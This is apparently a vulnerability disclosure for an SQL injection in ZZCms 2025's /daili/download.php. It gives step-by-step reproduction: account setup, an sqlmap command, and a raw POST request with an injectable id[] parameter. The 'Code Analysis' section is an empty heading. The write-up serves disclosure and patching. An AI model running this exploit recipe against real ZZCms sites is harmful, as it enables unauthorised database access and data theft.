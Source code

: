  ZZCms 2025 has a SQL Injection vulnerability
##### Vulnerability Location: /daili/download.php 
##### Affected Range: ZZCms 2025
##### Vulnerability Cause: download.php contains an SQL injection vulnerability, which enables accounts with ordinary user privileges to access database information through this account.
##### Vulnerability Impact: Obtain database access rights, and even DBA permissions; Obtain data from other databases;
##### Link: http://www.zzcms.net/
# Vulnerability recurrence

First, register an account and select the registration type as: Company. When filling in the company name, keywords such as "biological" should be included

<img width="1920" height="1055" alt="image" src="https://github.com/user-attachments/assets/df1580f0-6d5a-4022-9758-77276fcdd840" />

Log in to the created account and obtain the identity proof. Visit later: /daili/download.php 

<img width="1430" height="308" alt="image" src="https://github.com/user-attachments/assets/69311127-4132-4339-8be6-c08e37ea340e" />

Capture the data packet, convert it to the POST mode, and add the id parameter.Using SQLMAP:

<img width="1895" height="937" alt="image" src="https://github.com/user-attachments/assets/d00504b6-4358-478d-9ff0-ecc231e34f58" />

sqlmap command: python sqlmap.py -r 1.txt --level 5 --risk 3 --dbms=Mysql --current-user --batch

Data packet:
```
POST /daili/download.php HTTP/1.1
Host: 127.0.0.1:8081
sec-ch-ua: "Not.A/Brand";v="99", "Chromium";v="136"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: __51cke__=; PHPSESSID=1lgihann99he0kns9hofshtqll; UserName=admin1; PassWord=e00cf25ad42683b3df678c61f42c6bda; __tins__713776=%7B%22sid%22%3A%201758106876159%2C%20%22vd%22%3A%205%2C%20%22expires%22%3A%201758109216370%7D; __51laig__=5
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

id[]=1*
```
# Code Analysis
